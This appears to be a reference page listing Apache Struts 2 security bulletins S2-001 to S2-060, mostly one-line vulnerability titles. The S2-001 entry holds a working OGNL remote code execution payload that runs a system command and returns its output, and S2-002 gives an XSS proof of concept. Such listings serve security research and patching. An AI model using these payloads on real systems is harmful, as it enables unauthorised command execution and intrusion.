 S2-001 — Remote code exploit on form validation error

	path : login.action (post)
	Affected : Xwork2 struts 2.0.0 ~ 2.0.8 
	payload
	%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
    
S2-002 — Cross site scripting (XSS) vulnerability on <s:url> and <s:a> tags
	
	path : $filename.action
	Affected : Xwork2 Struts 2.0.0 ~ 2.1.8.1
	PoC : $filename.action/?<script>alert(1)</script>test=hello
	
S2-003 — XWork ParameterInterceptors bypass allows OGNL statement execution
	
	Affected : Xwork2 Struts 2.0.0 ~ 2.1.8.1

S2-004 — Directory traversal vulnerability while serving static content

S2-005 — XWork ParameterInterceptors bypass allows remote command execution

S2-006 — Multiple Cross-Site Scripting (XSS) in XWork generated error pages

S2-007 — User input is evaluated as an OGNL expression when there's a conversion error

S2-008 — Multiple critical vulnerabilities in Struts2

S2-009 — ParameterInterceptor vulnerability allows remote command execution

S2-010 — When using Struts 2 token mechanism for CSRF protection, token check may be bypassed by misusing known session attributes

S2-011 — Long request parameter names might significantly promote the effectiveness of DOS attacks

S2-012 — Showcase app vulnerability allows remote command execution

S2-013 — A vulnerability, present in the includeParams attribute of the URL and Anchor Tag, allows remote command execution

S2-014 — A vulnerability introduced by forcing parameter inclusion in the URL and Anchor Tag allows remote command execution, session access and manipulation and XSS attacks

S2-015 — A vulnerability introduced by wildcard matching mechanism or double evaluation of OGNL Expression allows remote command execution.

S2-016 — A vulnerability introduced by manipulating parameters prefixed with "action:"/"redirect:"/"redirectAction:" allows remote command execution

S2-017 — A vulnerability introduced by manipulating parameters prefixed with "redirect:"/"redirectAction:" allows for open redirects

S2-018 — Broken Access Control Vulnerability in Apache Struts2

S2-019 — Dynamic Method Invocation disabled by default

S2-020 — Upgrade Commons FileUpload to version 1.3.1 (avoids DoS attacks) and adds 'class' to exclude params in ParametersInterceptor (avoid ClassLoader manipulation)

S2-021 — Improves excluded params in ParametersInterceptor and CookieInterceptor to avoid ClassLoader manipulation

S2-022 — Extends excluded params in CookieInterceptor to avoid manipulation of Struts' internals

S2-023 — Generated value of token can be predictable

S2-024 — Wrong excludeParams overrides those defined in DefaultExcludedPatternsChecker

S2-025 — Cross-Site Scripting Vulnerability in Debug Mode and in exposed JSP files

S2-026 — Special top object can be used to access Struts' internals

S2-027 — TextParseUtil.translateVariables does not filter malicious OGNL expressions

S2-028 — Use of a JRE with broken URLDecoder implementation may lead to XSS vulnerability in Struts 2 based web applications.

S2-029 — Forced double OGNL evaluation, when evaluated on raw user input in tag attributes, may lead to remote code execution.

S2-030 — Possible XSS vulnerability in I18NInterceptor

S2-031 — XSLTResult can be used to parse arbitrary stylesheet

S2-032 — Remote Code Execution can be performed via method: prefix when Dynamic Method Invocation is enabled.

S2-033 — Remote Code Execution can be performed when using REST Plugin with ! operator when Dynamic Method Invocation is enabled.

S2-034 — OGNL cache poisoning can lead to DoS vulnerability

S2-035 — Action name clean up is error prone

S2-036 — Forced double OGNL evaluation, when evaluated on raw user input in tag attributes, may lead to remote code execution (similar to S2-029)

S2-037 — Remote Code Execution can be performed when using REST Plugin.

S2-038 — It is possible to bypass token validation and perform a CSRF attack

S2-039 — Getter as action method leads to security bypass

S2-040 — Input validation bypass using existing default action method.

S2-041 — Possible DoS attack when using URLValidator

S2-042 — Possible path traversal in the Convention plugin

S2-043 — Using the Config Browser plugin in production

S2-044 — Possible DoS attack when using URLValidator

S2-045 — Possible Remote Code Execution when performing file upload based on Jakarta Multipart parser.

S2-046 — Possible RCE when performing file upload based on Jakarta Multipart parser (similar to S2-045)

S2-047 — Possible DoS attack when using URLValidator (similar to S2-044)

S2-048 — Possible RCE in the Struts Showcase app in the Struts 1 plugin example in Struts 2.3.x series

S2-049 — A DoS attack is available for Spring secured actions

S2-050 — A regular expression Denial of Service when using URLValidator (similar to S2-044 & S2-047)

S2-051 — A remote attacker may create a DoS attack by sending crafted xml request when using the Struts REST plugin

S2-052 — Possible Remote Code Execution attack when using the Struts REST plugin with XStream handler to handle XML payloads

S2-053 — A possible Remote Code Execution attack when using an unintentional expression in Freemarker tag instead of string literals

S2-054 — A crafted JSON request can be used to perform a DoS attack when using the Struts REST plugin

S2-055 — A RCE vulnerability in the Jackson JSON library

S2-056 — A crafted XML request can be used to perform a DoS attack when using the Struts REST plugin

S2-057 — Possible Remote Code Execution when alwaysSelectFullNamespace is true (either by user or a plugin like Convention Plugin) and then: results are used with no namespace and in same time, its upper package have no or wildcard namespace and similar to results, same possibility when using url tag which doesn’t have value and action set and in same time, its upper package have no or wildcard namespace.

S2-058 — Previous Security Bulletins contained incorrect affected release version ranges.

S2-059 — Forced double OGNL evaluation, when evaluated on raw user input in tag attributes, may lead to remote code execution.

S2-060 — Access permission override causing a Denial of Service when performing a file upload
